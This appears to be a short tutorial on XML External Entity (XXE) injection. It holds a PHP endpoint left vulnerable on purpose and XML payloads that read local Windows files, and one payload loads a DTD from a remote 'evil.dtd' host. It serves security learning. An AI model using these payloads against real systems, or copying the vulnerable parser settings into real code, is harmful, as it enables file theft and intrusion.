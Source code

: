 # Normal Entity & Parameter Entity
## Normal Entity
- The way to reference the entity. `&entity_name`
- Define the entity in the DTD, and reference it in the XML document.
```XML
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
	<!ENTITY file SYSTEM "file:///c:/windows/win.ini">
]>
<updateProfile>
	<firstname>Joe</firstname>
	<lastname>&file;</lastname>
	...
</updateProfile>
```
## Parameter Entity
- The way to reference the entity. `% entity_name`
-  Define and reference the entity in the DTD.
- Parameter entity can also be referenced externally.
```XML
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>">
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd">
%an-element; %remote-dtd;
```
# XXE Bug Utilization
## An echo reads sensitive information
`xml.php` with problems:
```PHP
<?php
	libxml_disable_entity_loader (false);
	$xmlfile = file_get_contents('php://input');
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);
	echo $creds;
?>
```
### Declare through the DTD external entity directly.
Payload:
```XML
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [
	<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini">
]>
<creds>&goodies;</creds>
```
If it's bugging, we can use CDATA and parameter entity instead:
```XML
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
	<!ENTITY % start "<![CDATA[">
	<!ENTITY % goodies SYSTEM "file:///d:/test.txt">
	<!ENTITY % end "]]>">
	<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
	%dtd;
]> 
<roottag>&all;</roottag>
```
